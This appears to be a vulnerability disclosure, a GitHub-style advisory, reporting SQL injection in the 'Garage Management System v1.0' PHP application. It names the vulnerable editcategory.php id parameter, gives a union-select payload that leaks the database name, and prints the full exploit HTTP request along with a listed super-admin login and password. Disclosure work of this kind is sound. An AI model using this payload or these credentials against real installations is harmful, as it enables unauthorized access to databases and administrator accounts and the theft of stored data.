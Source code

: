 # Garage Management System v1.0 by mayuri_k has SQL injection

BUG_Author: Broccoli

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

vendors: https://www.sourcecodester.com/php/15485/garage-management-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /garage/editcategory.php?id=

Vulnerability location: /garage/editcategory.php?id=, id

dbname = garagedb

[+] Payload: /garage/editcategory.php?id=-1%27+union+select+1,database(),3,4--+ // Leak place ---> id

```sql
GET /garage/editcategory.php?id=-1%27+union+select+1,database(),3,4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=m6rramo7f8jalaggbvjh84b1mm
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/180587693-b91fbdff-a595-42fb-a54b-f6ef6e1e9be4.png)
